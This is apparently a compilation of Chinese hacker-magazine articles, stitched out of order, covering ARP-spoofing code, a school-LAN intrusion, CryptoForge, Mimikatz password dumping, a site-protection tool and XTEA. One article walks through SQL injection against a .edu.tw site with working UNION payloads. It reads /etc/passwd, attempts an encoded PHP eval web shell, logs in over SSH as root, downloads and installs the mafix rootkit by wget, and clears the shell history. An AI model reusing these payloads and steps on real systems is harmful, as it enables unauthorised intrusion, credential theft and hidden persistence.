if (ip_hdr->ip_dst.s_un.s_addr != g_tlp->locPC.ip) {
    t = g_tlp->pcList;
    for (int i = 0; i < g_tlp->pcListNum; ++i) {
        if (ip_hdr->ip_dst.s_un.s_addr == t->ip) {
            memcpy(&eth_hdr->ether_shost, g_tlp->locPC.mac, 6);
            memcpy(&eth_hdr->ether_dhost, t->mac, 6);
            pcap_sendpacket(g_tlp->hpcap, packet_content, packet_header->caplen);
            goto _HaveSend;
        }
        t++;
    }
}
```


### 二、扁篇

上面的数据转发过程如同路由器功能一样，是保证两端的数据传输“通”。在“通”的基础上添加数据过滤规则，就如防火墙一样使两端某些数据“不通”，实现包过滤防火墙的功能。互联网上数据被分割成一定长度的数据包，每个包中包含发送和接收者的IP地址和应用协议（TCP、UDP、ICMP），包过滤防火墙对包层层拆封查看包头，依照配置的过滤规则，防火墙对接收的包做“通”或“不通”决定。例如防火墙设定内部某终端不允许被外网访问23端口，那么访问此终端的Telnet应用将在防火墙外侧被拦截。

目前包过滤脚本编写的规则参考路由器的ACL（Access Control List）语法，程序目录下建立firewayRule文件配置转发策略，下面以禁止192.168.1.110为IP的终端访问80端口为例配置：（图10）


在Middle上用WireShark抓取的4个数据包，编号26、27是OTI的过程2、3，一条关于www.google.com的DNS应答；编号28、29是ITO的过程2、3，是一份到www.google.com是否可达的ICMP查询报文（图8）。数据包两两展开可以看出，Ethernet头层以上协议的内容是完全相同的（图9）。


```bash
access-list 101 deny tcp 192.168.1.110 0.0.0.0 any eq 80
access-list 101 permit ip any any
interface default
ip access-group 101 into
ip access-group 101 out
```

图11（抓包列表）

图12（抓包列表）

图13（数据包详情）

图11是正常情况下访问www.google.com的过程，数据显示主机与服务器3次握手完成，紧接着向服务器发出页面请求。数据包10由服务器返回HTTP的302重定向代码，告知访问者www.google.com已经不存在，请访问www.google.com.hk，其IP是74.125.128.94。访问者与www.google.com.hk服务器连接成功后，进行正常的数据传输。图12是应用上面配置的包过滤规则，可以看出由于过滤机制的存在，192.168.1.110主机发送两次相同的三次握手请求，但是没有得到应答。由于ICMP协议可以通过如上配置的包过滤规则，所以ping www.google.com发送的4条ICMP查询报文是可以通过包过滤防火墙的。图13中展示展开第510数据包的细节内容，其中的TCP目的端口正是包过滤规则里所禁止的80端口。

# 总结

本软件在XP下运行成功，Win7环境或许会出现某些异常，原因是WinPcap不能在Win7下完全兼容；而且Win7对ARP表的维护与XP略有些差别，导致在欺骗其他终端的同时，由于系统的原因也把自身正确的ARP表也做了修改，简单处理方法是欺骗后再把自身的ARP表删除即可。

> （文中涉及的相关程序及相关代码本期光盘已收录）

## 关于局域网入侵，浅谈菜鸟咋“害”

初中毕业啦！可是成绩不怎么理想，靠了个不怎么牛“黑客”之瘾，于是产生局域网入侵的想法，战争就这样开始啦!!! 只能心不甘情不愿地入学了，开始了我的碰壁生涯，其中的辛酸谁又能知道呢，也许只有自己体会得到吧。


刚一进学校的机房，我就有种不祥的预感，加上学校的机子没有联网，更满足不了我小小的需求。为了体会下，打开局域网的机子，发现有还原精灵（如图1），进入硬盘一看，傻眼啦，除了C盘的Windows XP系统外，剩下的一无所有（如图2）。这这这，此乃何等机房，失望加绝望。冷静下来一想，既然没有软件的支持，那么MS-DOS系统呢？这不是一个很好的突破口吗？想到这里，马上行动，按键Win+R（运行），键入cmd，打开cmd.exe，然后来查看下本地IP哦，输入ipconfig（输入ipconfig -all可以查看更多IP相关的内容）（如图3），查看到我的IP为172.16.1.26。因为我们的机子是同时处于同一个域中的，可想而知，我旁边的机子IP不是172.16.1.25就是172.16.1.27。为了证明我的猜想，我重启了这台“无人机”。


在cmd中输入shutdown -i（如图4），在弹出的对话框中点击添加，然后任意输入了172.16.1.27（我人品很好，一下就对了），将“警告用户此操作”的勾去掉，然后点击确定（如图5），cmd中提示成功。再一看那台机子（如图6），直接关机，没有任何提示。呵呵，由此，我可以关掉这个域中的任何一台机子了。


关机的风暴过去后，一想这多没意思呀，能够任意关闭对方的程序那才叫刺激。直接在cmd中输入telnet 172.16.1.27，按Enter后，提示正在连接，啊！23端口连接失败，对方没有开启telnet服务呀（如图7）。这可如何是好，得想办法开启对方的telnet服务。情不自禁地来到本地的管理工具，打开了服务（开始——控制面板——管理工具——服务），找到名称为telnet的那项，后面启动类型……


为“已禁用”（如图8）。由此推断，我们的机子都是一个管理员安装的，所以应该配置一样。这样的话，只能去连接对方的机子啦：右击“服务（本地）”，点击“连接到另一台计算机”，然后在弹出的对话框输入172.16.1.27；点确定（如图9）。然后再在名称中找到telnet服务，双击进入“常规”选项卡，将启动类型改为“启动”，然后点击“应用”，再点击“启动”，等待启动完成，OK了（如图10），对方的telnet服务已经启动。输入telnet 172.16.1.27，回车后，输入点变成了……粗粗的，不过多时，提示是否提示对方本机密码；我输入了n，然后让我输入登录用户。Windows XP默认的管理员账户都是administrator，于是在login中输入administrator，在password中直接略过（如图11）。这样，我已经登录成功对方的telnet服务了。现在，我就可以实现对方机子的小小控制。为了恶搞，我强制结束了对方的桌面进程项目，操作如下：在telnet 172.16.1.27中输入taskkill -f -im explorer.exe，回车之后，对方的桌面已经没有了（如图12）。同理，用该命令可以结束其他正在运行的程序。结束记事本，可以输入taskkill -f -im notepad.exe（如图13）。（如果想知道对方运行了哪些程序，可以输入tasklist即可。）如果你认为输入对方程序命令太长，你可以输入它的PID（如图14）。

关于MS-DOS入侵就介绍到这儿。如果大家的命令太多，可别忘记用批处理哦！

虽然操作简单，但作为菜鸟的我们可不要一略而过呀，只有明白其中的原理，操作起来会更加容易。希望黑客X档案越来越火，伴随我们一起成长。


# 密码巧“保鲜”，加密变透明

小赵是公司的资料管理员，因为其工作认真负责，因此很受公司老总信任。很多涉及公司内部机密的文件，老总也放心地交由其管理。出于安全性的考虑，小赵对其进行了加密处理。不过在实际工作中，当加密或者解密文件时，需要反复地输入密码，这让小赵有些厌倦。小赵想，如果能够在保证密码安全的前提下，实现文件自动加解密操作，那该多好啊！有了CryptoForge这款软件，小赵的想法变成了现实。CryptoForge的运行机制很独特，通过为密码设置有效期，让文件加解密变得“透明”起来，超过预设时间，密码会自动失效。结合其内置的联合加密技术，让加密文件坚不可摧。

# 选择密码记忆类型

小赵在系统托盘中的CryptoForge图标的右键菜单上点击“Properties”（属性）项，在设置窗口中的“Pass-phrase”（密码短语）面板（如图1）中勾选“Hide Typing”（隐藏输入）项，表示禁止显示密码内容，之后输入所需密码。为了提高安全性，小赵使用了复杂的密码，根据“Password Quality”（密码质量）栏中指示信息，小赵可以估算出密码的安全级别。

在“Remember passphrase”（记忆密码）栏中可以选择密码记忆方式：
- 选择“Do not remember passphrase”（不记忆密码）项，表示禁止预设密码，每次执行加解密操作时必须输入密码。
- 选择“Remember for up to X”（记忆时间段）项，表示激活密码过期失效功能。在其右侧可以设置密码有效期，格式为时分秒类型。例如将其设为“00:30:15”，表示从当前时间点开始计时，当计时累计超过30分零15秒后，预设密码会自动失效。当此期间内，您无需输入密码，就可以自动执行文件加解密操作。
- 选择“Remember until manual deletion”（手工删除密码）项，表示只有当手工强制删除密码后，密码才会失效。手工删除密码的方式有两种：一种是勾选“Delete using HotKey combination”（删除密码热键）项，设置密码删除热键（默认为“Ctrl+F12”键），只要按下该热键，密码即可自动失效；另外一种方法是在CryptoForge右键菜单中点击“Delete Passphrase”（删除密码）项，也可以删除预设密码。

注意，不同的加密文件其密码可能不同，每次使用您都可以设置不同的密码，这样可以应对复杂的使用情况。

……“TripleDES”“Gost”等加密算法，对应的密钥位数分别为448、256、168、256位。点击“Speed”（速度）按钮，可以测试每一种加密算法的处理速度。为了安全起见，小赵选择了所有的加密算法，让加密文件异常坚固。为了减小压缩文件的体积，小赵在“Compression”（压缩）面板中勾选“Compress before encryption”（加密前压缩）项，表示先对文件进行压缩处理，之后再执行加密操作。在“Compression Level”（压缩等级）栏中拖动滑块，可以调整压缩的强度。

# 伪装文件名，让加密更彻底

为防止别人根据文件名猜测文件用途，小赵觉得很有必要对加密文件名进行伪装。在“General”（一般）面板中勾选“Encrypt filename”（加密文件名）项，表示对文件名进行同步加密，最大限度防止信息泄露。为了提高运行的隐蔽性，小赵取消了“Show icon in the system tray”（显示托盘图标）项的选择状态，让CryptoForge在系统托盘中隐身。其余的设置保持默认，点击OK按钮完成配置操作。因为小赵采用了密码过期失效的记忆类型，因此，在退出设置窗口之前，小赵需要再次输入相同的密码进行确认。


图1

图2

# 强悍的联合加密方式

小赵注意到，一般的加密软件往往采用单一的加密算法对文件进行加密，安全性相对较低。CryptoForge采取了联合加密的方式，大大提高了加密的复杂度。所谓联合加密，就是同时使用多种高强度加密算法，对文件进行加密，让非法破解者望而却步。在“Algorithms”（算法）面板中（如图2）预设了“Blowfish”“Rijndael”“TripleDES”“Gost”等加密算法……

# 加密实战解析

因为小赵整理文档大约需要花费1个小时50分钟，因此他决定采取设置密码有效期的方法，来处理所需的加密文件。小赵打开CryptoForge设置界面，在其中输入预设密码“mima!@#$%hello”，选择“Remember for up to X”项，设置时间点为“01:50:00”，之后保存设置，让CryptoForge进入自动计时状态，之后小赵就开始进入忙碌状态，……

# 安全第一

轻松地处理各种文档。当需要加密操作时，只需在目标文件或者文件夹的右键菜单上点击“Encrypt”项，CryptoForge 即可使用预设的密码，对其进行加密处理，加密后的文件后缀为“.cfe”。因为小赵激活了加密文件名功能，因此加密后的文件名称会变得很杂乱。当解密文件时，只需双击对应的加密文件，CryptoForge 即可使用预设的密码，自动对其解密。当 CryptoForge 累计时间超过 1 个小时 50 分钟后，会立即删除预设密码。之后即使别人有机会接触到小赵的电脑，找到相关的加密文件，当试图对其解密时，因为 CryptoForge 已经删除了密码，所以拒绝执行自动解密操作。对方必须在警告窗口中点击“Change Key”按钮，输入正确的密码，才可以对其解密。利用 CryptoForge 提供的强悍的联合加密技术，让暴力破解尝试只能无功而返。当然，如果小赵想速战速决搞定加解密操作，最大限度地保证文件安全，也可以激活热键删除密码的操作方式。当完成文件的自动加密操作后，立即点击“Ctrl+F12”键，删除预设密码，不给别人以任何可乘之机。

# 用“MM”获取 Windows 登录密码

虽然我们可以列举出 N 条获取 Windows 登录密码的理由，但是通用且有效的方法很少，今天偶给大家带来一款轻取 Windows 登录密码的神器——Mimikatz（以下简称 MM）。这是一款法国佬编写的工具，目前支持 Windows XP 及以上版本（可以说是一款通杀工具），尽管我用 Google 翻译了三封 Email 给作者，但是这个“小气”的法国佬还是没能向我提供一份源码，废话不多说，直奔主题。

MM 是一款强大的 Windows 系统管理程序，提供的主要命令如下：

- standard：基本命令
- crypto：加密和证书管理
- system：系统信息查询
- process：进程管理
- thread：线程管理
- service：服务管理
- privilege：特权管理
- winmine：Tools 文件夹扫雷“外挂”程序的实例
- nogpo：消除 GPO（组策略对象，Group Policy Object 的缩写）
- samdump：转存 Windows 用户密码文件 sam（%systemroot%\system32\config\sam）
- inject：DLL 注入功能
- ts：终端管理

## 一、善其事，利其器——用 MM 轻取 Windows 登录密码

首先，将一起打包的 MM 程序包解压缩，在解压目录中有“tools”“Win32”和“x64”三个文件夹，“Tools”文件夹是作者写的扫雷游戏的“外挂”程序（实际上就是一个读取内存信息的程序）。如果你的机器是 32 位的就运行 Win32 目录下的 Mimikatz.exe，如果你的机器是 64 位的就运行“X64”目录中的 Mimikatz.exe，本文以 Win32 为例，X64 类似。进入“Win32”目录双击“Mimikatz.exe”运行程序，如图1所示。

输入：“help”命令可以查看到 MM 提供的一些标准命令（standard 命令），主要实现 cls（清屏）和程序 exit（退出），不要以为 MM 只有这几招“花拳绣腿”，它是一款强大的 Windows 系统管理程序。虽然这些功能中有一些不怎么样，比如进程管理中没有提供进程的路径（木马可以进行文件名欺骗），inject（DLL 注入功能）没有提供 PE 注入，但是它的密码功能确实是一个亮点，完全不同于曾经风靡一时的 FindPass2003、Dump2000 等程序。如果你要使用 MM 所提供的上面列举出的功能，只需要输入相应的命令并以“::”号结尾即可查询到详细的帮助信息，比如进程管理，我们输入：“process::”即可，如图2所示。了解 MM 的一些基本用法后，言归正传，要获取 Windows 登录密码，首先执行：“privilege::debug”命令（至于为什么在本文的第 2 部分会有说明），然后执行：“inject::process lsass.exe sekurlsa.dll”，最后执行：“@getLogonPasswords”命令，此时在“widgets:”开头一行的后面即是当前 Windows 登录用户的密码，如图3所示。

图2

这一步的目的是向 lsass.exe 注入一个 sekurlsa.dll 文件，早些年的木马后门程序都会有 DLL 注入的功能，相应的 DLL 注入方法也比较多，比如 LoadLibrary() 加载注入、PE 直接注入等等，有兴趣的朋友可以参考一下黑X早些时候的文章。

### 2.3、@getLogonPasswords

前两步的操作都是围绕第 3 步而来的，在执行这一步的时候，一定要注意英文字母的大小写；在 Mimikatz 中，“@”符号是引用 DLL 文件导出函数的前缀标志，换句话说，“getLogonPasswords”是 sekurlsa.dll 中的一个导出函数，因此它的名称决定于 sekurlsa.dll 中的导出函数名。那么如何查询一个 DLL 文件的导出函数呢？用 LordPe 打开 sekurlsa.dll，单击“目录”——“输出表”，就可以看到该 DLL 的导出函数了，看一下有没有我们调用的“getLogonPasswords”，如图4所示。

图3

图4

## 二、知其然知其所以然——MM 命令及原理剖析

在文章的第一部分描述了获取 Windows 登录密码的具体操作方法，作为一名有理想的“叉子”，我们不仅要“知其然”还要“知其所以然”；首先我们先来理解一些上面操作步骤中的命令，然后简单描述一下 MM 获取密码的原理。

### 2.1、privilege::debug

这一步的目的是给 Mimikatz.exe 的进程加上 Debug 的特权，以便 Mimikatz 可以操作 Lsass.exe 系统进程。那什么是特权呢？特权是一个账户的权利，比如一个用户想要进行本地系统的关机操作，例如关闭系统，它必须有关机特权。因为第 2 步中我们要向 lsass.exe（Windows 登录验证程序）这个系统进程中注入一个 DLL 文件，只有加上 Debug 特权，Mimikatz 才可以实现注入。

### 2.2、inject::process lsass.exe sekurlsa.dll

这个功能类似于很多程序的“插件”功能，如上图所示，我们还可以调用其它的函数，比如查询一下本机所有的账户（类似于在 CMD 中执行 net user 命令），执行：“@getLocalAccounts”，如图5所示。

图5

在 Mimikatz.exe 的目录下还有其它的一些 DLL 文件，也可以使用同样的方法，调用其相应的功能。

### 2.4、Mimikatz 原理简介

Mimikatz 是一款 Windows 平台上最通用的密码获取工具，其中玄机在哪里呢？原来当登录 Windows 的时候，我们输入登录密码，lsass.exe 通过两个模块 wdigest 和 tspkg 对输入的密码进行加密，当加密完成后，lsass.exe 并没有对加密的散列进行擦除，而且该加密通过特征可以定位，并且按照微软的算法是可逆的。这给了我们截取密码的机会，只要用户登录过并且没有重启电脑，我们就可以把密码抓取出来。

对于 MM 的其它功能，有兴趣的朋友可继续探究，文章就到这里。

郭建伟

# 网站安全管理妙招

小凯是某单位的网站管理员，近来他比较郁闷。原因是其单位的网站经常被黑客利用各种漏洞入侵，之后黑客会在其中搞一些恶作剧，例如删除网页文件，在网页中植入恶意代码或者木马程序等等。不是造成网站无法正常访问，就是导致来访者访问了挂马网页，导致中毒的“惨剧”。即使发现了网站被黑，查找其原因来也比较繁琐，因为网站文件很多，无法很快搞清究竟是什么文件被删除或者被恶意修改。笔者向其推荐 Keep It Safer 这款独特的安全软件，不仅可以监控和记录网站文件夹中所有文件的变动情况，而且可以自动清除来历不明的文件，最大限度地保护网站的安全。

我们知道，黑客通过种种漏洞入侵您的网站时，为了打通入侵的通道，往往会向网站的对应文件夹上传各种木马文件，例如 ASP 木马等等。之后利用这些木马，才能取得相应的控制权，对网站进行深度探测，例如浏览网站文件列表，读取重要文件内容等等。根据以上分析，我们只要对网站的文件变动情况进行监视，就很容易发现那些来历不明的可疑文件。利用 Keep It Safer 提供的文件夹警戒功能，可以轻松实现上述要求。首先将其安装到服务器上，在 Keep It Safer 主窗口工具栏中点击“Folder Guard”按钮（其图标为照相机），在 Folder Guard 窗口（如图1）中点击“Add”按钮，导入对应的网站文件夹，将其添加到监控列表中。同理，您可以添加多个需要监控的文件夹。

图1

之后在 Keep It Safer 主界面（如图2）工具栏中点击按钮菜单“Mode”→“Start”按钮，激活其监控功能。当目标文件夹中出现新的文件或者子文件夹时（例如黑客上传木马程序等），Keep It Safer 会自动将其删除，恢复目标文件夹原有结构。当目标文件夹中出现文件名称异常变动时（例如黑客非法修改文件名），Keep It Safer 会自动恢复对应文件的原始名称。当 Keep It Safer 发现目标文件夹中文件被删除，或者其内容发生变动时（例如黑客非法修改文件内容），Keep It Safer 会将其记录下来存放到日志中，让您可以迅速定位可疑文件，进而将害群之马清理出去。如何查看日志呢？在 Keep It Safer 工具栏上点击“Log”按钮，即可打开日志浏览窗口。

图2

对于重要的程序，我们必须保证其始终处于运行状态。对可疑程序，必须坚决阻止其运行。利用 Keep It Safer 提供的程序监控功能，可以完美解决该问题。在 Keep It Safer 主界面工具栏上点击绿色按钮，可以创建绿色程序列表，在该列表中的程序始终处于 Keep It Safer 监控之中，如果其中某个程序意外关闭，Keep It Safer 会自动重启该程序。如果其失去响应（例如挂起等），Keep It Safer 同样会重新启动该程序。在弹出窗口（如图3）中点击“Add”按钮，导入所需的程序。也可以点击“Process”按钮，从进程列表中直接导入程序。

点击工具栏中的黄色按钮，可以创建黄色程序列表，创建方法与上述完全相同。该列表中的程序一旦意外终止，Keep It Safer 同样会执行重启操作。不过，相对于绿色程序列表，该列表中的程序权限较低，一旦失去响应，将无法重新启动。点击工具栏中的红色按钮，可以创建红色程序列表，具体的添加方法与上述相同。您可以将各种“危险分子”添加到该列表中，只要 Keep It Safer 发现这些危险程序试图启动的话，会坚决将其关闭。

实际上，再好的防护技术也比不上及时的备份操作。只要对网站进行了完整的备份，即使遭到黑客破坏，您也可以轻松将其恢复。利用 Keep It Safer 提供的备份功能，可以化解网站遇到的各种险情。点击工具栏中的“Settings”按钮，在设置窗口（如图4）勾选“Password Protection”项，可以为 Keep It Safer 设置密码，这样没有密码就无法修改 Keep It Safer 各项配置。勾选“Internal backup”项，激活内部备份功能。所谓内部备份，就是在服务器中执行的备份，例如将目标网站相关文件备份到另一个文件夹中等。在“Source folder”栏中选择目标网站路径，在“Target folder”栏中选择目标路径。在“Backup every”列表中选择备份的周期和时间点。备份周期包括每天、每星期起始日、每星期结束日、每月起始日、每月结束日等。当到达预设的时间后，可以自动执行内部备份操作。勾选“External backup”项，激活外部备份操作。所谓外部备份，就是将网站文件备份到远程服务器上。在“Source folder”栏中选择网站存储路径，在“Host”栏中输入远程服务器地址，例如 FTP 服务器地址等。在“Remote dir”栏中输入远程路径名，在“User name”和“Password”栏中输入相应的账户名和密码信息。在“Backup every”栏中设置所需的备份周期和时间点。当到达预设的时间后，可以自动执行外部备份操作。当然，您可以随时在 Keep It Safer 主界面中点击按钮菜单“Backup”→“Internal”项，执行内部备份操作。点击“Backup”→“External”项，执行外部备份操作。

图3

图4

# PHP 注入漏洞，获取 root，最后留下 rootkit

很久没写文章了，主要是因为一个懒字，觉得写文章太累，最近突然有空来看，于是想写篇文章忽悠下大众，就写篇 Linux 渗透到获取 root 权限的过程吧，别扔砖头就行。

测试目标：http://test.edu.tw/

首先用 NMAP 探测一下服务器开放的端口情况和操作系统类型，命令如下：

```bash
Nmap.exe -v -sT -sV -O -P0 -oX 123.xml test.edu.tw;
```

扫描完成了，尽管没把操作系统扫出来，但根据开放的端口情况来看，十有八九是 Linux 系统了，存在弱口令的几率还是很小的，接下来就要看看网站是否存在脚本注入漏洞了。

网站用 PHP 程序编写，有的链接没有过滤严格，就有可能存在注入漏洞，我们利用 Google，先构造关键字 `site:test.edu.tw php?id=` 放入啊D里检测一下是否存在，检测结果如图2。

存在一个 PHP 注入漏洞，我们现在要做的就是利用 PHP 注入语句来获取网站的一些敏感信息了。首先判断字段数，提交 `order by 5--`，返回正常，说明字段数大于 5；再提交 `order by 10--`，返回不正常，说明字段数大于 5 小于 10，依次递减，最后测得字段数为 7。

```text
http://test.edu.tw/histroy3.php?id=94/**/and/**/1=2/**/union/**/select/**/1,UnHex(Hex(concat(0x5e24,Version(),0x245e))),3,4,5,6,7--
```

再查看连接用户名和数据库名，依次提交：

```text
http://test.edu.tw/histroy3.php?id=94/**/and/**/1=2/**/union/**/select/**/1,UnHex(Hex(concat(0x5e24,User(),0x245e))),3,4,5,6,7--
```

```text
http://test.edu.tw/histroy3.php?id=94/**/and/**/1=2/**/union/**/select/**/1,UnHex(Hex(concat(0x5e24,DataBase(),0x245e))),3,4,5,6,7--
```

返回结果如图4与图5。

库名 HEX/**/limit/**/1,1--（依次递增到 10,1）

通过查询得知 new_system_user_admin 存在 account、password 这两个字段，判断应该是存放管理员用户和密码的字段，再构造查询语句：

```text
http://test.edu.tw/histroy3.php?id=94/**/and/**/1=2/**/union/**/select/**/1,account,3,4,5,6,7/**/From/**/xxx.new_system_user_admin--
```

```text
http://test.edu.tw/histroy3.php?id=94/**/and/**/1=2/**/union/**/select/**/1,password,3,4,5,6,7/**/From/**/xxx.new_system_user_admin--
```

返回结果如图6与图7。

可以看到数据库连接用户名为 root，数据库名是 XXX（为了方便隐藏，我用 xxx 代替），由于数据库是 mysql5，支持跨库查询，利用跨库查询的方法，往往会得到意想不到的效果，提交：

```text
http://test.edu.tw/histroy3.php?id=94/**/and/**/1=2/**/union/**/select/**/1,UnHex(Hex(concat(0x5e24,SCHEMA_NAME,0x7c7c,Count(*),0x245e))),3,4,5,6,7/**/From/**/information_schema.SCHEMATA/**/limit/**/0,1--（然后 1,1 依次递增）
```

通过我的查询，发现在 8 个数据库，分别为：information_schema、hcxxx、lib、mysql、xxxhc、xxxtop、rxx、test。我感觉 rxx 这个应该是此站的数据库，先测试一下它吧，首先查表，语句如下：

```text
http://test.edu.tw/histroy3.php?id=94/**/and/**/1=2/**/union/**/select/**/1,UnHex(Hex(concat(0x5e24,TABLE_NAME,0x7c7c,TABLE_ROWS,0x245e))),3,4,5,6,7/**/From/**/information_schema.TABLES/**/Where/**/TABLE_SCHEMA=库名HEX/**/limit/**/0,1--
```

一直查到第七个才返回空白页面，说明只存在 7 个表，大致筛选了一下，最终确定 new_system_user_admin 为管理员表，再构造查询表的字段，语句如下：

```text
http://test.edu.tw/histroy3.php?id=94/**/and/**/1=2/**/union/**/select/**/1,UnHex(Hex(concat(0x5e24,COLUMN_NAME,0x245e))),3,4,5,6,7/**/From/**/information_schema.COLUMNS/**/Where/**/TABLE_NAME=表名HEX/**/And/**/TABLE_SCHEMA=库名HEX/**/limit/**/1,1--（依次递增到 10,1）
```

成功爆出用户和密码，接下来就是找后台登录了，直接在根目录下加了个 admin，后台就出来了，利用爆出的用户名和密码成功登录后台，如图8。

可惜到最后一台比较简单，虽然存在 FCKeditor，不过漏洞均补上了，无法拿到 WebShell。后来我想了下，既然是 root 权限，应该可以通过 `into outfile` 函数进行导出一句话，前提必须是 `gpc=off`，还有路径。这个好办，我们直接用 `load_file()` 函数获取，提交语句：

```text
http://test.edu.tw/histroy3.php?id=94/**/and/**/1=2/**/union/**/select/**/1,load_file(0x2F6574632F706173737764),3,4,5,6,7--
```

结果如图9。


图9

得到绝对路径为 `/var/www`，现在来尝试 `into outfile` 导出一句话，语句如下：

```text
http://test.edu.tw/histroy3.php?id=172/**/and/**/1=2/**/union/**/select/**/1,char(60,63,112,104,112,32,101,118,97,108,40,36,95,80,79,83,84,91,99,109,100,93,41,59,63,62),3,4,5,6,7%20into%20outfile%20char(47,118,97,114,47,119,119,119,47,102,99,107,101,100,105,116,111,114,47,101,100,105,116,111,114,47,49,46,112,104,112)--
```

目录和一句话均转换成 ASCII 码值，访问页面如图10。


图10

并没有出现我们理想的结果，看来是 `gpc=on`，怎么办呢？突然想到还有 `mysql` 这个库，如果能查到 mysql 的账户和密码的话，或许还是比较有用的。我在本机安装了 LAMP 环境，通过登录 mysql 数据库，发现用户和密码的字段分别是 `User`、`Password`（Linux 下注意大小写）。我们继续构造语句查询：

```text
http://test.edu.tw/histroy3.php?id=94/**/and/**/1=2/**/union/**/select/**/1,User,3,4,5,6,7/**/From/**/mysql.user--

http://test.edu.tw/histroy3.php?id=94/**/and/**/1=2/**/union/**/select/**/1,Password,3,4,5,6,7/**/From/**/mysql.user--
```

结果如图11与图12。


图11


图12

Mysql 密码是加密的，在 www.cmd5.com 上查询提示要收费，幸好我 MD5 账户还有点余额，顺利查了出来。但是 mysql 的 3306 没有对外开放，也没有发现诸如 phpMyAdmin 之类的登录页面；现在陷入了僵局，怎么办呢？

搞到这里，似乎没有什么办法了，难道要放弃吗？这不是我的作风。我们还有最后一招：社会工程学。前面扫到开有 22 端口，证明安装了 SSH，现在有了 mysql 密码，何不试试这个呢？不管了，死马当活马医吧，打开 putty，填上 IP，输入用户和密码，结果如图13。


图13

成功连上了 root，看来一向命苦的我也有 RP 爆发的时候。

有了 root，剩下的就是留个 rootkit 后门了。通过 `uname -a` 查得内核版本为 2.6.18，立刻用 sunwear 大牛在邪人发布的那个 `mafix.tar.gz` 的 rootkit 后门下载到服务器上，命令为：`wget http://www.test.com/mafix.tar.gz`，解压命令为：`tar zxvf mafix.tar.gz`，如图14。


然后进入 mafix 目录，赋予 root 文件执行权限，如图15。


接着安装 rootkit 后门，格式为：`./root 连接密码 端口`，如果安装成功，会显示如图16。


最后用 `history -c` 清除命令记录，整个渗透过程也就结束了。

# XTEA 加密算法研究与实现

孙朝伟

## 一、前言

最近有朋友的 QQ 号码被盗了，问我能否帮忙找回来。很惭愧，我也没有什么好办法，只能去腾讯网站求助客服 MM。经过这件事情后，我上网搜索了很多关于 QQ 密码盗窃的文章。在这些文章中我发现了一个以前没有听说过的加密算法 TEA（Tiny Encryption Algorithm，微型加密算法），腾讯将这个算法应用于 QQ 的消息加密上。我就说现在找不到 QQ 密码嗅探工具了，原来是加密了。当然我找到的文章比较老，是 2007 年的，不知道现在腾讯还在使用这个算法没有。不管怎么说，我们还是先来认识一下这个算法吧。

## 二、TEA 算法简述

TEA 是 David Wheeler 和 Roger Needham 在 1994 年发布的一种对称密钥分组密码加密算法，最大的特点就是速度极快，内存占用极少。而且 TEA 算法实现极为简单，可以用极少的硬件电路实现整个算法，特别适合应用于嵌入式领域。这个算法有多简单呢？算法发明者给出了标准 C 语言实现，我们看一下算法中计算函数。

```c
// 加密：
for(i=0; i<32; i++) {
    sum += delta;
    v0 += ((v1<<4)+k0) ^ (v1+sum) ^ ((v1>>5)+k1);
    v1 += ((v0<<4)+k2) ^ (v0+sum) ^ ((v0>>5)+k3);
}

// 解密：
for(i=0; i<32; i++) {
    v1 -= ((v0<<4)+k2) ^ (v0+sum) ^ ((v0>>5)+k3);
    v0 -= ((v1<<4)+k0) ^ (v1+sum) ^ ((v1>>5)+k1);
    sum -= delta;
}
```

看到了吧，整个算法不是一般的简洁。一共就只有 3 行计算，并循环 32 次。

这里要特别提一下，其中 delta 是算法中的一个常量，值为 2654435769。我查到的中文资料上说 delta 值为黄金分割率。我很晕！众所周知，黄金分割率是 1.618 啊！最后查了 TEA 算法原作者的论文，才知道，人家说的是来源于黄金分割率。具体的大家看图1，上面一个是 delta 取值，下面一个是黄金分割率。


图1

## 三、TEA、XTEA 和 XXTEA

TEA 算法的安全性不算好。利用 TEA 算法弱点还是当年黑客破解微软 Xbox 游戏机的一种方法。维基百科上介绍说，当前最好的 TEA 破解算法，在相关密钥对情况下使用 2 的 23 次方（8MiB 左右）的选择明文，仅需 2 的 32 次方时间复杂度，也就是大约 43 亿轮运算即可完成破解。

所以 TEA 算法原作者在 1997 年发布了 XTEA（eXtended TEA，扩展 TEA）算法，用于修正 TEA 算法漏洞。次年，也就是在 1998 年又发布了 XXTEA（Corrected Block TEA，矫正分组 TEA）算法。

好了，光看名字，我们一般就会认为，XTEA 安全性高于 TEA，而 XXTEA 安全性又高于 XTEA，对吧？说实话，我刚开始也的确是这样认为的。可是当我认真阅读维基百科上的关于 TEA、XTEA 和 XXTEA 的介绍后才发现，上面这句话仅在 2010 年前才成立！为什么呢？因为 2010 年 5 月 Elias Yarrkov 发布了一种攻击方式，使用选择明文攻击，可以在 2 的 59 次方次查询外加少量相关运算的情况下破解 XXTEA 算法。相对的，XTEA 算法当前最好的攻击方法需要 2 的 115.15 次方的时间复杂度。

所以我觉得现在 XTEA 算法貌似安全性更高。不过这只是我的看法，因为我没有找到权威的关于这三种算法安全性的比较文章。如果各位大侠有其它看法，可以给我发邮件讨论。

## 四、使用 XTEA 算法的字符串加密程序实现

光说不练可不好，在这里我使用 Lazarus 制作一个 XTEA 字符串加密工具。Lazarus 是一个类似 Delphi 的快速开发工具，使用 Free Pascal 语言，我在这里使用的是 0.9.30.1 版本。（其实用 VC++ 更好，有现成的代码可以直接使用；可惜我不会用 VC++ 制作程序界面）

首先启动 Lazarus，然后点击菜单 Project/New Project，在弹出的对话框中选择第一个 Application，点击 OK 按钮。如图2所示。


图2

然后新建一个 Unit 文件，点击菜单 File/New Unit，保存时将这个 Unit 命名为 `xtea.pas`。这个文件将包含 XTEA 算法的关键代码。

特别注意：XTEA 只能使用 128bit 的密码，那么如何控制用户不多不少正好输入 128bit 的密码呢？

答案是不用控制。为什么呢？其实很简单，我们都知道 MD5 散列算法正好是产生 128bit 的散列值。因此只要采用 MD5 算法来处理用户输入的密码，那么无论用户输入的密码长短如何，都能得到一个 128bit 的密码了。程序中其它的一些关键点请大家注意看我代码中注释的内容，这里就不一一列举了。

```pascal
unit xtea;

interface

uses
  // Lazarus 自带 MD5 散列算法单元，只要引用就好
  md5;

type
  // XTEA 一次能加密 64bit 数据
  TXteaMsgBlock = array[0..1] of LongWord;

// XTEA 密钥长度是 128 位
TXTeaKeyBlock = array[0..3] of LongWord;

// 保存用户密码散列后的值
TMD5Pwd = array[0..15] of Byte;

procedure XTeaCrypt(var V: TXTeaMsgBlock; const K: TXTeaKeyBlock);
procedure XTeaDecrypt(var V: TXTeaMsgBlock; const K: TXTeaKeyBlock);
function XTeaCryptStr(const Msg, Pwd: string): string;
